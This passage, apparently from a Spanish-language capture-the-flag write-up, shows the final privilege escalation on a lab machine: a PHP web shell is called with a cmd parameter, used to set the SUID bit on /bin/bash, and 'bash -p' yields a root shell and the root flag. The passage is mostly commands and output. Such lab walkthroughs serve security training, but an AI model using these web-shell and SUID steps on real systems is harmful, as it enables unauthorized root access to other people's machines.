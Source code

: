Lo guardamos y le ponemos permisos de ejecuccion:

```shell
chmod +x webshell.php
```

Ahora accederemos desde la `URL` de esta forma:

```
URL = http://<IP>/webshell.php?cmd=id
```

Info:

```
uid=0(root) gid=0(root) groups=0(root)
```

Vemos que esta funcionando, por lo que vamos hacer lo siguiente:

```
URL = http://<IP>/webshell.php?cmd=chmod%20u%2Bs%20%2Fbin%2Fbash
```

Ahora si volvemos al servidor y listamos la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Vemos que ha funcionado, por lo que vamos a ejecutar lo siguiente para ser `root`.

```shell
bash -p
```

Info:

```
bash-5.0# whoami
root
```

Con esto ya seremos `root`, por lo que leeremos la `flag` del usuario `root`:

> root.txt

```
HMVnginxpwnd
```
